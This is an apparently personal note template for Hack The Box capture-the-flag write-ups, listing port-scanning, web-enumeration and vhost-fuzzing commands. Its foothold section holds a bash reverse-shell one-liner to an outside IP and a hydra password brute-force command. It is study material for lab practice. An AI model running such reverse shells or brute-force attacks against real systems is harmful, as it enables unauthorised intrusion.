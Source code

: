 ```yaml
---
date: 
title: "[BOX] HTB Write-Up"
machine_ip: 10.10.10.4
os: Windows
difficulty: Medium
my_rating: 
tags: 
references: "[[📚CTF Box Writeups]]"
---
```

dataview properties:
dataview properties:

---
date:
title: HTB Write-Up
machine_ip: 
os: 
difficulty: 
my_rating
tags:
references: HTB Writeups

---


*must be on first line



# Enumeration


- Rustscan
	- `rustscan -a 10.10.10.10 -t 2000 -b 2000 -- -A -sVC -p- -Pn` 
	- `-- -` then nmap tacks
		- Misses some open ports so also use **nmap**
	- Also, may need do manage the container
		- `docker ps -a`
		- `docker rm -f <name>`
		- `alias rustscan='docker run -it --rm --name rustscan rustscan/rustscan:alpine'`
		- Then run scan...
	- may need to re-download `.deb` package from [here](https://github.com/RustScan/RustScan/releases/download/2.3.0/rustscan_2.3.0_amd64.deb), and run:
		- `dpkg -i <rustscan.deb>`
		- `rustscan` should work now

- Nmap
	- `nmap <ip> -A -sVC -p- -Pn --script 'default,vuln'`

- Web enumeration
	- feroxbuster - directories/files
		- `feroxbuster -u http://<ip>:<port> -k -r -v --filter-status 403,400,404`
	- gobuster
		- `gobuster dir -u  http://<ip>:<port> --wordlist /path/to/wordlist.txt`
	- dirsearch
		- `dirsearch dir -u  http://<ip>:<port> -w /path/to/wordlist.txt`
	- Dirbuster, whatweb, etc.
	- ffuf - vhosts, then add to `/etc/hosts`
		- `ffuf -w /usr/share/seclists/SecLists-master/Discovery/DNS/shubs-subdomains.txt -u http://<IP> -H "HOST: FUZZ.website.com". -fs <Size1>,<Size2> -fw <wordcount>`
	- wfuzz - vhosts, then add to `/etc/hosts`
		- `wfuzz -c -f sub-fighter -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u 'http://website.com' -H "HOST: FUZZ.website.com" -fs <Size1>,<Size2> --hw <wordcount>`
- ftp
	- `anonymous`
- smb
	- list shares with no login
	- 

---
# Foothold

- gain shell via exploit
- `Search-That-Hash`
- Stablize shell 
	- `bash -i >& /dev/tcp/10.2.1.119/4242 0>&1[]`
	- Step 1: `python3 -c 'import pty;pty.spawn("/bin/bash")'`  
	- Step 2: `CTRL + Z`  
	- Step 3: `stty raw -echo; fg` 
	- Step 4: `export TERM=xterm`
- Bruteforce http basic auth (pop up login) with #hydra
```
hydra -l [...]/usernames.txt -P [...]/rockyou.txt -u -e ns -f -t 64 '10.10.159.37' http-get /<web-path -V
```

## Pivot to user
- enumerate!
- 

---
# PrivEsc

- escalate to root


MAKE LINKS
- PrivEsc_Linux
- PrivEsc_Windows
- HackTricks
- GTFOBins
- PayloadAllThings
